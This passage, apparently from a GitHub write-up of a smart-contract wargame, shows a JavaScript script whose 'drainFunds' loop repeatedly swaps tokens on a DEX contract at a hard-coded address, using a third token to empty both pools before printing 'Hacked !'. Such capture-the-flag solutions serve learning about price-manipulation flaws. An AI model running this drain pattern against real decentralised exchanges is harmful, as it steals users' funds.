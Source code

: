 ```js
    if(toSwap>available)toSwap=available;

    return toSwap;
}


async function drainFunds(){
    
    let flag=true;
    await contract.approve(contract.address,10000,{from:PLAYER});
    while(flag){
        const balances= await getBalances();
        const tokenValues= await knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);
flag = balances.token1Balance*balances.token2Balance>0;
    }
    // Token2 balance  = 0. Make sure to set the token3 value to the same value as token1 at the end of this loop.

    flag = true;
     TOKEN2_ADDRESS=TOKEN1_ADDRESS;
     TOKEN1_ADDRESS=TOKEN3_ADDRESS;

while(flag){
        const balances= await getBalances();
        const tokenValues= await knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);

        flag = balances.token1Balance*balances.token2Balance>0;
    }
    
    console.log("Hacked !")
}


module.exports = async  function() {
  
  contract = await contractABI.at("0x5b9777555BDC7bA0Dee12EBB6d0Fc1E6Dc83b20a"); 
  await drainFunds();
}
```

#### Solidity Contract for test and for the token3
